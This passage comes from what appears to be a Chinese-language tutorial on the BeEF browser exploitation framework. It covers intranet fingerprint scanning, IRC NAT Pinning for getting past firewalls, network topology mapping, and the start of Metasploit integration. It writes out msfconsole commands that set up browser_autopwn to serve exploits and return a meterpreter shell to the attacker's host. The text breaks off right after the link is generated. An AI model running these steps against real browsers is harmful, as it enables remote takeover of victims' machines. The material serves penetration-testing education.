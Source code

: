 ![这里写图片描述](http://drops.javaweb.org/uploads/images/21f687b7c768119dda4b6831aed6a1fb1f62700b.jpg)

**8、网络指纹特征扫描**

用来扫描内网中的Web服务器和网络设备

**Fingerprint Network模块**

如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/c20525022470867a59865ee3e83ee9cf66b8b161.jpg)

**9、Remote CSRFs**

**10、IRC NAT Pinning**

模拟浏览器的IRC通信，可用来绕过防火墙

**11、网络拓扑**

BeEF可根据扫描获得的信息绘制内网网络拓扑 如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/eb3631dddf9f319db71904f8d4f0f4e110fbb962.jpg)

![这里写图片描述](http://drops.javaweb.org/uploads/images/07bdf7d3ff47754198b74f782e96e9d35f6a98e7.jpg)

![这里写图片描述](http://drops.javaweb.org/uploads/images/f0df8dec37787421e9c9b8eb30eff1afd7c31105.jpg)

此部分会在以后详细介绍

4-结合Metasploit
--------------

**1、Metasploit系列模块**

如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/0db557bf633a0ad166ac945110422ac4666be8b2.jpg)

**2、Browser Autopwn**

反弹回meterpreter

方法：

**（1）**使用Metasploit的Browser Autopwn功能生成BrowserAutoPwn URL

```
use auxiliary/server/browser_autopwn
show options
set LHOST 192.168.16.245
set SRVHOST 192.168.16.245
set SRVPORT 8881
run -z

```

生成一个链接，如图
